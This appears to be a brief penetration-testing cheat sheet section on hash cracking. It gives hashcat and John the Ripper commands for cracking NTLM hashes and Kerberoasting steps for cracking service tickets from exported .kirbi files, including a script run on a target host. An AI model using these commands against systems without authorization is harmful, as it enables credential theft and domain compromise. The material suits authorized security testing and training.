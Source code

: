 
## Hash Cracking

Cracking NT (NTLM) hashes
```
$ hashcat -m 1000 -a 0 hashes.txt [path/to/wordlist.txt] -o cracked.txt
$ john --wordlist=[path/to/wordlist.txt] hashes.txt
```

Crack SPN hashes via. exported `.kirbi` tickets.
```
# Kerberoast
$ python3 tgsrepcrack.py rockyou.txt [ticket.kirbi]  # locally crack hashes
PS> Invoke-Kerberoast.ps1                            # crack hashes on target

# John the Ripper
$ python3 kirbi2john.py -o johncrackfile ticket.kirbi  # convert ticket to john file
$ john --wordlist=rockyou.txt johncrackfile
```


